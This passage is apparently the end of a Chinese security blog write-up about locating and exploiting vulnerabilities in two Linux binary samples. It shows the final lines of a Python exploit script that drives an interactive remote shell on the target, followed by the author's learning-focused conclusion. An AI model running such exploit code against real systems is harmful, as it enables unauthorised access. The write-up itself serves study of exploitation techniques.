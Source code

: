 ```
sendData('3n')
sendData('0n')

print('**E*************l***********t*********D*********e*******************')
print('*****x*************o***********!*********o*********!*****************')
print('********p************i**********************n************************')

while(1):
    command = input('[+] Shell&gt;')
    sendData(command + 'n')
    sendData('27n')
```



## 0x03 结语

通过分享对2个样本的漏洞定位和利用过程，加深了对Linux漏洞利用技术的了解，同时希望能与各位大佬们相互交流，共同进步。作为刚刚跨入安全行业的小白，还有很多东西需要向大家学习，请大家多多指教~
